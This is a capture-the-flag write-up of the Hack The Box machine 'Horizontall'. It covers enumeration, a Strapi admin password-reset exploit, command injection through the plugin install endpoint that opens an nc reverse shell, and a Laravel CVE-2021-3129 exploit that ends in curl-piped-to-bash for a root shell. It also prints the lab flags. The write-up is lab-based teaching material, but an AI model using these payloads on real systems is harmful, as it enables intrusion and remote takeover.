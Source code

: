 ```yaml
---
title: Horizontall - Hack The Box
date: 2022-02-05 07:07:07 +07:07
tags: [HTB]
description: Easy rated machine from Hack The Box
images: "/assets/img/horizontall/horizontall.png"
---
```


<figure>
<img src="/assets/img/horizontall/horizontall.png" alt="icon">
<figcaption> Horizontall - Hack The Box </figcaption>
</figure>

# Introduction

<a href="https://www.hackthebox.com/home/machines/profile/374" target="_blank" rel="noopener nofollow">Horizontall </a> is a easy rated machine from Hack The Box which includes admin's password reset of <a href="https://thatsn0tmysite.wordpress.com/2019/11/15/x05/" target="_blank" rel="noopener">strapi </a>, which leads to login as admin. There is RCE in starpi which will initially give us a shell as strapi user. There is vulnerable <a href="https://github.com/nth347/CVE-2021-3129_exploit" target="_blank" rel="noopener nofollow">Laravel</a> running on port 8000. So, we forward it and exploit locally to get a reverse shell.


# Nmap

```bash
# Nmap 7.91 scan initiated Thu Feb  3 09:14:00 2022 as: nmap -sC -sV -vv -oA nmap/ports 10.10.11.105
Nmap scan report for 10.10.11.105
Host is up, received timestamp-reply ttl 63 (0.48s latency).
Scanned at 2022-02-03 09:14:01 EST for 22s
Not shown: 998 closed ports
Reason: 998 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDL2qJTqj1aoxBGb8yWIN4UJwFs4/UgDEutp3aiL2/6yV2iE78YjGzfU74VKlTRvJZWBwDmIOosOBNl9nfmEzXerD0g5lD5SporBx06eWX/XP2sQSEKbsqkr7Qb4ncvU8CvDR6yGHxmBT8WGgaQsA2ViVjiqAdlUDmLoT2qA3GeLBQgS41e+TysTpzWlY7z/rf/u0uj/C3kbixSB/upkWoqGyorDtFoaGGvWet/q7j5Tq061MaR6cM2CrYcQxxnPy4LqFE3MouLklBXfmNovryI0qVFMki7Cc3hfXz6BmKppCzMUPs8VgtNgdcGywIU/Nq1aiGQfATneqDD2GBXLjzV
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIyw6WbPVzY28EbBOZ4zWcikpu/CPcklbTUwvrPou4dCG4koataOo/RDg4MJuQP+sR937/ugmINBJNsYC8F7jN0=
|   256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJqmDVbv9RjhlUzOMmw3SrGPaiDBgdZ9QZ2cKM49jzYB
80/tcp open  http    syn-ack ttl 63 nginx 1.14.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Feb  3 09:14:23 2022 -- 1 IP address (1 host up) scanned in 23.30 seconds
```

Hostname is leaked by nmap. Adding it to hosts file.

# Sub Domain

After not finding anything special on webpage, fuzzing for subdomains, we get a hit on api-prod.horizontall.htb.

```bash
% gobuster vhost -u http://horizontall.htb -w /opt/Seclists/Discovery/DNS/subdomains-top1million-110000.txt --threads 500
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://horizontall.htb
[+] Method:       GET
[+] Threads:      500
[+] Wordlist:     /opt/Seclists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/02/03 09:22:13 Starting gobuster in VHOST enumeration mode
===============================================================
Found: api-prod.horizontall.htb (Status: 200) [Size: 413]
Progress: 50757 / 114442 (44.35%)                       ^C
[!] Keyboard interrupt detected, terminating.
```
**Note: I have used 500 threads but never use it unless you're in hurry. It breaks your requests and you'll need to start again.**

<figure>
<img src="/assets/img/horizontall/api.png" alt="api">
<figcaption> api-prod.horizontall.htb </figcaption>
</figure>

Fuzzing for sub directories here, we get admin which leads to strapi login.

```bash
gobuster dir -u http://api-prod.horizontall.htb -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://api-prod.horizontall.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/02/03 09:30:37 Starting gobuster in directory enumeration mode
===============================================================
/Admin                (Status: 200) [Size: 854]
/admin                (Status: 200) [Size: 854]
/ADMIN                (Status: 200) [Size: 854]
```

<figure>
<img src="/assets/img/horizontall/strapi.png" alt="strapi">
<figcaption> Strapi Login </figcaption>
</figure>

# Strapi Password Reset

There is <a href="https://thatsn0tmysite.wordpress.com/2019/11/15/x05/" target="_blank" rel="noopener">password</a> reset vulnerability, so we abuse it.

```bash
% python3 passreset.py admin@horizontall.htb http://api-prod.horizontall.htb password123
[*] Detected version(GET /admin/strapiVersion): 3.0.0-beta.17.4
[*] Sending password reset request...
[*] Setting new password...
[*] Response:
b'{"jwt":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjQzODk4ODY1LCJleHAiOjE2NDY0OTA4NjV9.VwtIynidACLnZLk248mwnsoMKXqXHwtZtLuPcnQRH3M","user":{"id":3,"username":"admin","email":"admin@horizontall.htb","blocked":null}}'
```

**Keep that JWT token with you. We'll be needing that after sometime.**

And now, we can login as admin here.

<figure>
<img src="/assets/img/horizontall/admin.png" alt="admin">
<figcaption> Strapi Admin </figcaption>
</figure>

There is vulnerable strapi running which already has some public <a href="https://bittherapy.net/post/strapi-framework-remote-code-execution/" target="_blank" rel="noopener">exploits</a>, so we use it to get a shell.

# Reverse shell

```bash
curl -i -s -k -X $'POST' -H $'Host: api-prod.horizontall.htb' -H $'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjQzODk4ODY1LCJleHAiOjE2NDY0OTA4NjV9.VwtIynidACLnZLk248mwnsoMKXqXHwtZtLuPcnQRH3M' -H $'Content-Type: application/json' -H $'Origin: http://api-prod.horizontall.htb' -H $'Content-Length: 123' -H $'Connection: close' --data $'{\"plugin\":\"documentation && $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.57 1337 >/tmp/f)\",\"port\":\"1337\"}' $'http://api-prod.horizontall.htb/admin/plugins/install' --proxy http://127.0.0.1:8080
```
I am sending it through burp if I have typo somewhere.

<figure>
<img src="/assets/img/horizontall/burp.png" alt="burp">
<figcaption> Shell </figcaption>
</figure>

And indeed I had typos, so just reset according to your need.

```bash
% nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.57] from (UNKNOWN) [10.10.11.105] 40152
/bin/sh: 0: can't access tty; job control turned off
$ 
```

# Root

Strapi's home directory is in opt. So, after creating a .ssh directory and adding ssh key we can login with ssh. There is laravel running on port 8000, which we forward to exploit locally.

<figure>
<img src="/assets/img/horizontall/laravel.png" alt="Laravel">
<figcaption> Laravel </figcaption>
</figure>

Vulnerable <a href="https://github.com/nth347/CVE-2021-3129_exploit" target="_blank" rel="noopener nofollow">Laravel</a> is running, so we exploit it.

```bash
% python3 exploit.py http://localhost:8000 Monolog/RCE1 "id"
[i] Trying to clear logs
[+] Logs cleared
[+] PHPGGC found. Generating payload and deploy it to the target
[+] Successfully converted logs to PHAR
[+] PHAR deserialized. Exploited

uid=0(root) gid=0(root) groups=0(root)

[i] Trying to clear logs
[+] Logs cleared
% python3 exploit.py http://localhost:8000 Monolog/RCE1 "cat /root/root.txt"
[i] Trying to clear logs
[+] Logs cleared
[+] PHPGGC found. Generating payload and deploy it to the target
[+] Successfully converted logs to PHAR
[+] PHAR deserialized. Exploited

ee85c5acec1939622724057929ff61ca

[i] Trying to clear logs
[+] Logs cleared
```

# Shell as root

```bash
python3 exploit.py http://localhost:8000 Monolog/RCE1 "curl 10.10.14.57/zex.sh|bash"
[i] Trying to clear logs
[+] Logs cleared
[+] PHPGGC found. Generating payload and deploy it to the target
[+] Successfully converted logs to PHAR

% nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.57] from (UNKNOWN) [10.10.11.105] 49770
bash: cannot set terminal process group (9589): Inappropriate ioctl for device
bash: no job control in this shell
root@horizontall:/home/developer/myproject/public# cat /root/root.txt
cat /root/root.txt
ee85c5acec1939622724057929ff61ca
root@horizontall:/home/developer/myproject/public#
```